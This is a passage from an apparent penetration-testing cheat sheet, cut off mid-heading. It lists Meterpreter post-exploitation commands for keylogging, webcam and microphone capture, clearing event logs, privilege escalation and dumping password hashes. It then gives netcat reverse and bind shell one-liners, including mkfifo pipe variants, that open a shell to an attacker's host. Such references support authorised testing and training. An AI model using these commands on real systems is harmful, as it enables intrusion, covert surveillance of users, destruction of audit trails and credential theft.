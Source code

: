 load: Loads one or more Meterpreter extensions <br>
migrate: Allows you to migrate Meterpreter to another process <br>
run: Executes a Meterpreter script or Post module <br>
sessions: Quickly switch to another session <br>

### Networking commands
arp: Displays the host ARP (Address Resolution Protocol) cache <br>
ifconfig: Displays network interfaces available on the target system <br>
netstat: Displays the network connections <br>
portfwd: Forwards a local port to a remote service <br>
route: Allows you to view and modify the routing table <br>

### System commands

clearev: Clears the event logs <br>
execute: Executes a command <br>
getpid: Shows the current process identifier <br>
getuid: Shows the user that Meterpreter is running as <br>
kill: Terminates a process <br>
pkill: Terminates processes by name <br>
ps: Lists running processes <br>
reboot: Reboots the remote computer <br>
shell: Drops into a system command shell <br>
shutdown: Shuts down the remote computer <br>
sysinfo: Gets information about the remote system, such as OS <br>

### Others Commands (these will be listed under different menu categories in the help menu)

idletime: Returns the number of seconds the remote user has been idle <br>
keyscan_dump: Dumps the keystroke buffer <br>
keyscan_start: Starts capturing keystrokes <br>
keyscan_stop: Stops capturing keystrokes <br>
screenshare: Allows you to watch the remote user's desktop in real time <br>
screenshot: Grabs a screenshot of the interactive desktop <br>
record_mic: Records audio from the default microphone for X seconds <br>
webcam_chat: Starts a video chat <br>
webcam_list: Lists webcams <br>
webcam_snap: Takes a snapshot from the specified webcam <br>
webcam_stream: Plays a video stream from the specified webcam <br>
getsystem: Attempts to elevate your privilege to that of local system <br>
hashdump: Dumps the contents of the SAM database <br>

# Reverse and bind shell:
## Netcat
### Listen from attacking device
    sudo nc -lvnp 443 (reverse)
    nc <MACHINE_IP> <port> (bind)
### Send a shell from target device
    nc <LOCAL-IP> <PORT> -e /bin/bash (reverse)
    nc -lvnp <port> -e "cmd.exe" (bind)
    mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f (on new Linux without -e on nc, then attacker binds to it)
    mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f (same as above, then attacker listen to it)
### Send a shell from recent Windows server: